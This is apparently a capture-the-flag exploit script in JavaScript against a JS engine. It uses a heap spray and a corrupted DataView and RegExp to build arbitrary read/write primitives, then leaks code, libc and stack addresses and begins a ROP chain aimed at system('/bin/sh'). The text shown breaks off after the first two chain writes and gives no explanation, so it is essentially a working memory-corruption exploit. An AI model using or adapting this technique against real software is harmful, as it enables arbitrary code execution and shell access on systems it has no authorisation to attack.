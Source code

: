 exp：

```javascript
String.prototype.repeat=function(count){var str=''+this;count=+count;count=Math.floor(count);var maxCount=str.length*count;count=Math.floor(Math.log(count)/Math.log(2));while(count){str+=str;count--;}
str+=str.substring(0,maxCount-str.length);return str;}

PATH = '/'+'A'.repeat(0x5C)+'/CC'

var spray=[];
for(var i=0;i<1000;i++){
    spray.push('A'.repeat(0x68));
}

var a = DataView(0x68);
var master = RegExp(PATH);
var b = DataView(0x68);

a.setUint8(0x70,0x10)

master.edit = DataView.prototype.setUint32;
master.show = DataView.prototype.getUint32;

function read32(addr,master,b){
    master.edit(0x98,addr%0x100000000);
    master.edit(0x9c,addr/0x100000000);
    return b.getUint32(0);
}

function write32(addr,value,master,b){
    master.edit(0x98,addr%0x100000000);
    master.edit(0x9c,addr/0x100000000);
    b.setUint32(0,value);
}

var code_address = master.show(0x78)+master.show(0x7C)*0x100000000-0x480a0+0x1000
print('[+]code: 0x'+code_address.toString(16))
var libc_base = read32(code_address+0x46de8,master,b)+read32(code_address+0x46de8+4,master,b)*0x100000000-0x9d850
print('[+]libc: 0x'+libc_base.toString(16))
var stack = read32(libc_base+0x1ef2e0,master,b)+read32(libc_base+0x1ef2e4,master,b)*0x100000000
print('[+]stack: 0x'+stack.toString(16))


var mret = stack - 0x108
var pop_rdi = libc_base + 0x26b72
var sh = libc_base + 0x1b75aa
var system = libc_base + 0x55410
var ret = libc_base + 0x25679


print('[+]mret: 0x'+mret.toString(16))

function write64(addr,value,master,b){
    master.edit(0x98,addr%0x100000000);
    master.edit(0x9c,addr/0x100000000);
    b.setUint32(0,value%0x100000000);
    b.setUint32(4,value/0x100000000);
}

//rop
write64(mret,ret,master,b);
write64(mret+8,pop_rdi,master,b);
```
